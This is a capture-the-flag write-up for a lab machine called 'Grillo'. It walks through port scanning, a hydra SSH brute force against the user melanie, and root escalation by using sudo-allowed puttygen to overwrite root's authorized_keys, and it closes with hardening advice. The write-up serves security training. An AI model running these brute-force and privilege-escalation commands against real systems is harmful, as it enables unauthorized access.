



# Grillo - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackersLab |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | 192.168.86.92 |
| **Date** | March 3, 2026 |

## 1. Executive Summary

The exploitation of the **Grillo** machine began with an information disclosure vulnerability found within the HTML source code of the default web page. This led to the discovery of a username, which was subsequently compromised through an SSH brute-force attack due to a weak password policy. Initial access was established as the user `melanie`. Privilege escalation was achieved by abusing Sudo permissions on the `puttygen` binary. By leveraging `puttygen` to overwrite the root user's `authorized_keys` file with a controlled public key, I successfully gained full administrative access via SSH.

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

The process started with local network host discovery and a full port scan to identify active services.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.92
# Result: Linux (TTL 64)

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.92 -oG allPorts
extractPorts allPorts
nmap -p22,80 -sCV 192.168.86.92 -oN target
```

**Key Findings:**

| PORT | SERVICE | VERSION |
|------|---------|---------|
| 22 | SSH | OpenSSH 9.2p1 |
| 80 | HTTP | Apache httpd 2.4.57 |

### 2.2 Web Enumeration

The web server at port 80 displayed a default Apache installation page. However, inspecting the HTML source code revealed a developer comment containing a username hint for the user `melanie`, suggesting her password was susceptible to dictionary attacks.


## 3. Exploitation (Foothold)

### 3.1 SSH Brute Force

Armed with a valid username and the hint regarding a weak password, I utilized `hydra` to perform a brute-force attack against the SSH service which shows the password.

```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.92 -t 64 -I
```



Then I established a remote session via SSH and retrieved the user flag.



## 4. Privilege Escalation

### 4.1 Sudo Enumeration

Checking for sudo privileges revealed that the user `melanie` could execute `puttygen` as root without a password.

```bash
melanie@grillo:~$ sudo -l
Matching Defaults entries for melanie on grillo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User melanie may run the following commands on grillo:
    (root) NOPASSWD: /usr/bin/puttygen
```

### 4.2 Arbitrary File Write via puttygen

The `puttygen` utility is used for generating and converting SSH keys. When run with sudo, it can write converted keys to any location on the filesystem. I exploited this to inject my own public key into the root user's `authorized_keys` file.

**Steps taken:**

Generate a new SSH key pair in `/tmp`:

```bash
cd /tmp
ssh-keygen -t rsa -f my_rsa -N ""
```

Use `puttygen` to write the public key to the root SSH directory:

```bash
sudo /usr/bin/puttygen my_rsa -O public-openssh -o /root/.ssh/authorized_keys
```

Download the private key to the attacking machine:

```bash
scp melanie@192.168.86.92:/tmp/my_rsa .
chmod 600 my_rsa
```

Login as root using the private key:

```bash
ssh root@192.168.86.92 -i my_rsa
```

## 5. Flags & Proof

Melanie


Root



## 6. Remediation & Hardening

- **Information Disclosure:** Remove all sensitive comments and usernames from HTML source code of public-facing web applications.
- **Password Policy:** Implement a strong password policy (complexity, length, and rotation) to prevent successful dictionary attacks.
- **Sudo Restrictions:** Remove `puttygen` from the sudoers list. If key management is required, restrict the output path (`-o`) to non-sensitive directories using a wrapper script.
- **SSH Hardening:** Disable SSH password authentication in favor of key-based authentication only, and restrict root login (`PermitRootLogin no`).

---

Authored by: Brutotes
[⬅️ Back to Home](../../README.md)
